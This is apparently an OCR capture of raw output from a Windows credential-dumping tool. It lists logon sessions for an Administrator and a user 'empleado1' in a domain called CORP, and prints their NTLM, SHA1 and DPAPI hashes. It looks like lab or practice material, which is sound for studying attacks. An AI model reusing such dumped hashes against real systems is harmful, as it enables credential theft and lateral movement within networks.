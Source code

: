 Info:

```
Authentication Id : 0 ; 3253663 (00000000:0031a59f)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:52:13
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 2351163 (00000000:0023e03b)
Session           : Interactive from 2
User Name         : empleado1
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:39:14
SID               : S-1-5-21-3352250647-938130414-2449934813-1104
        msv :
         [00000003] Primary
         * Username : empleado1
         * Domain   : CORP
         * NTLM     : 1791df33b45987df23e4fe6c57ea6de7
         * SHA1     : 6ef021db9a1924563f77a5d9ebf3e3629de98851
         * DPAPI    : a5798e4a9a06f32761063a2a093f0074
        tspkg :
        wdigest :
         * Username : empleado1
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : empleado1
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 2351125 (00000000:0023e015)
Session           : Interactive from 2
User Name         : empleado1
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:39:14
SID               : S-1-5-21-3352250647-938130414-2449934813-1104
```
